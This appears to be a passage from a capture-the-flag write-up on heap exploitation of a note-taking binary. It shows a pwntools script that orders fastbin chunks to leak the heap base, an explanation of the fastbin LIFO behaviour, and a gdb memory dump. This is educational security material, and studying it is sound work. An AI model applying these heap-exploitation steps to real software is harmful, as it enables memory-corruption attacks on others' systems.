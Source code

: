 ```py
    io.sendlineafter("Size:",str(size))
    io.sendafter("Note:",str(note))

def free(idx):
    io.sendlineafter("Choice >>","2")
    io.sendlineafter("Index:",str(idx))

if __name__=="__main__":
    add(0x70,'0000')
    add(0x70,'1111')
    add(0x70,'2222')
    free(1)
    free(2)
    free(0)
    add(0x10,'\xf0')
    gdb.attach(io)
    free(3)
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))
    io.interactive()

```

The procedure in which we got leak was -> 

> free(1), free(2) and then free(0)

This causes fastbin list to be created in the way **0->2->1** due to the **LIFO** property of fastbins
{: .notice}

Now when we add another note of size **0x10** , initially it takes out chunk 0 from the fastbins for initialising the header , and then it takes out chunk 2 as even user requested size is **0x10** itself which is the cause of heap leak. 

From here , we need to analyze memory to get a better perspective of the exploit.


```sh
0x555555758000:	0x0000000000000000	0x0000000000000021 -> Chunk at idx 0
0x555555758010:	0x0000555555758150	0x0000000000000010
0x555555758020:	0x0000000000000000	0x0000000000000081
0x555555758030:	0x0000000030303030	0x0000000000000000
0x555555758040:	0x0000000000000000	0x0000000000000000
0x555555758050:	0x0000000000000000	0x0000000000000000
0x555555758060:	0x0000000000000000	0x0000000000000000
0x555555758070:	0x0000000000000000	0x0000000000000000
0x555555758080:	0x0000000000000000	0x0000000000000000
0x555555758090:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x5555557580a0:	0x0000000000000000	0x0000000000000021 -> Chunk at idx 1
0x5555557580b0:	0x0000000000000000	0x0000000000000070
0x5555557580c0:	0x0000000000000000	0x0000000000000081
0x5555557580d0:	0x0000000031313131	0x0000000000000000
0x5555557580e0:	0x0000000000000000	0x0000000000000000
0x5555557580f0:	0x0000000000000000	0x0000000000000000
0x555555758100:	0x0000000000000000	0x0000000000000000
0x555555758110:	0x0000000000000000	0x0000000000000000
0x555555758120:	0x0000000000000000	0x0000000000000000
0x555555758130:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x555555758140:	0x0000000000000000	0x0000000000000021 -> Chunk at idx 2 , from which we just leaked heap
0x555555758150:	0x00005555557580f0	0x0000000000000070
0x555555758160:	0x0000000000000000	0x0000000000000081
```